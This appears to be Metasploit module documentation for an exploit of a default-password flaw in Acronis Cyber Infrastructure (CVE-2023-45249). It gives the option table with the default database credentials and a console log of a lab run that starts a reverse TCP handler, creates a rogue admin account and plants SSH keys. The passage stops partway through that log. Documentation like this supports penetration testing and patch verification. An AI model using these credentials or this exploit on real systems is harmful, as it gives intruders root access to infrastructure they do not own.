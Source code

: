 ```msf

Basic options:
  Name           Current Setting  Required  Description
  ----           ---------------  --------  -----------
  DATABASE       keystone         yes       The database to authenticate against
  DBPORT         6432             yes       PostgreSQL DB port
  PASSWORD       vstoradmin       no        The password for the specified username. Leave blank for a random password.
  PRIV_KEY_FILE                   no        SSH private key file in PEM format (ssh-keygen -t rsa -b 2048 -m PEM -f <priv_key_file>)
  Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-me
                                            tasploit.html
  RPORT          8888             yes       The target port (TCP)
  SSHPORT        22               yes       SSH port
  SSL            true             no        Negotiate SSL/TLS for outgoing connections
  TARGETURI      /                yes       Path to the Acronis Cyber Infra application
  USERNAME       vstoradmin       yes       The username to authenticate as
  VHOST                           no        HTTP server virtual host

Payload information:

Description:
  Acronis Cyber Infrastructure (ACI) is an IT infrastructure solution that provides storage,
  compute, and network resources. Businesses and Service Providers are using it for data storage,
  backup storage, creating and managing virtual machines and software-defined networks, running
  cloud-native applications in production environments.
  This module exploits a default password vulnerability in ACI which allow an attacker to access
  the ACI PostgreSQL database and gain administrative access to the ACI Web Portal.
  This opens the door for the attacker to upload SSH keys that enables root access
  to the appliance/server. This attack can be remotely executed over the WAN as long as the
  PostgreSQL and SSH services are exposed to the outside world.
  ACI versions 5.0 before build 5.0.1-61, 5.1 before build 5.1.1-71, 5.2 before build 5.2.1-69,
  5.3 before build 5.3.1-53, and 5.4 before build 5.4.4-132 are vulnerable.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2023-45249
  https://security-advisory.acronis.com/advisories/SEC-6452
  https://attackerkb.com/topics/T2b62daDsL/cve-2023-45249

View the full module info with the info -d command.
```
## Scenarios
### Acronis Cyber Infrastructure 4.7 appliance Unix/Linux command
```msf
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > set rhosts 192.168.201.5
rhosts => 192.168.201.5
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > check
[*] 192.168.201.5:8888 - The target appears to be vulnerable. Version 4.7.1-53
msf exploit(linux/http/acronis_cyber_infra_cve_2023_45249) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 4.7.1-53
[*] Creating admin user qagkx with password gXv0E2DUU9 for access at the Acronis Admin Portal.
[*] Saving admin credentials at the msf database.
[*] Creating SSH private and public key.
[*] Saving SSH public and private key pair at the msf database.
```